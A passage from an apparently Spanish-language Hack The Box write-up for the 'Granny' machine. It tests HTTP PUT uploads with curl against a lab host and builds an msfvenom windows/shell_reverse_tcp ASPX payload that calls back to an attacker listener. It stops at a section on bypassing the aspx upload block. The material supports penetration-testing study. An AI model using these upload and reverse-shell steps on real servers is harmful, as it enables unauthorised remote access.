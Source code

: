 ```
/postinfo.html        (Status: 200) [Size: 2440]                                            
                                                                                            
===============================================================
2022/01/19 11:50:50 Finished
===============================================================

```

## Curl y Burpsuite

Se crea y se intenta subir un archivo prueba.txt a la web para comprobar el método PUT:
```
┌──(root💀kali)-[/home/cr4y0/Escritorio/HTB/GRANNY]
└─# cat prueba.txt                                          
Hola Mundo

┌──(root💀kali)-[/home/cr4y0/Escritorio/HTB/GRANNY]
└─# curl -X PUT http://10.10.10.15/prueba.txt -d @prueba.txt
```

Se comprueba que se pueden subir archivos con extension txt:

![](https://i.imgur.com/SlKAC4g.png)

Pero no permite subir archivos aspx con el método PUT:

![](https://i.imgur.com/0Fc9p0r.png)

El método OPTIONS permite ver los métodos HTTP habilitados:

![](https://i.imgur.com/IEMrjjS.png)


# Obteniendo acceso

## Msfvenom

Creamos un payload malicioso con msfvenom:

```
┌──(root💀kali)-[/opt/Windows-Exploit-Suggester]
└─# msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.8 LPORT=445 -f aspx -o revershell.aspx
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 324 bytes
Final size of aspx file: 2716 bytes
Saved as: revershell.aspx
```

## Bypass en la subida de archivos aspx
